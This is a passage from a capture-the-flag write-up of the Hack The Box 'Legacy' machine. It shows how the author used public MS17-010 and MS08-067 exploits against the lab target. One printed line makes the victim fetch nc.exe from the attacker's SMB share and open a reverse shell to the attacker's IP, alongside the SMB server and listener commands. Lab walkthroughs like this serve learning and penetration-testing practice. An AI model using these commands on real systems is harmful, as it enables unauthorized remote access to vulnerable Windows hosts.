 There is another project on **Github** from **worawit**, the **[MS17-010](https://github.com/worawit/MS17-010){:target="_blank"}** exploit that helped me on other **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** boxes. I just need to clone the project to have it on my machine, and I will directly employ the exploit to perform a command execution on the victim machine, thanks to the vulnerability in the **SMB** protocol. By just modifying one line of code, creating the server with `impacket-server` and using `nc` to wait for the connection to my machine, I can this time successfully obtain the so wanted **Reverse Shell**. Once compromised I try some basic commands, but for some reason the `whoami` command throws an error.

```bash
git clone https://github.com/worawit/MS17-010
python2 checker.py 10.129.227.181
# spoolss: Ok (32 bit)
# browser: Ok (32 bit)

# -------------------
# Tips: (If there is no named pipes)
# nvim checker.py --> USERNAME = 'guest'
# -------------------

nvim zzz_exploit.py
# service_exec(conn, r'cmd /c \\10.10.14.62\smbFolder\nc.exe -e cmd 10.10.14.62 443')
sudo impacket-smbserver smbFolder $(pwd) -smb2support
sudo rlwrap -cAr nc -nlvp 443
python2 zzz_exploit.py 10.129.227.181
# Or: > python zzz_exploit.py 10.10.10.4 spoolss

whoami                      # :(
hostname
ipconfig
```

<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_13.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_14.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/legacy_writeup/Legacy_15.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I remember that the **SMB** protocol version was also vulnerable to the **MS08-067** exploit, so I also search on **Github** and find a project by **andyacer**, the **[ms08_067](https://github.com/andyacer/ms08_067){:target="_blank"}** exploit that might allow me to find another way to compromise the target machine. I just follow the steps they tell me, create a shellcode with `msfvenom`, modify the script and run it correctly, again I get access to the box. I still have the problem when executing the `whoami` command, but I can now access the user flags required by **[Hack The Box](https://www.hackthebox.com){:target="_blank"}** to prove the compromise of the box.

> The **MS08-067** vulnerability is a **[Buffer overflow](https://www.fortinet.com/resources/cyberglossary/buffer-overflow){:target="_blank"}** vulnerability in the **Windows Server** service. This service runs on **Windows** systems which handles file and print sharing on **Windows** systems and allows communication between network devices.
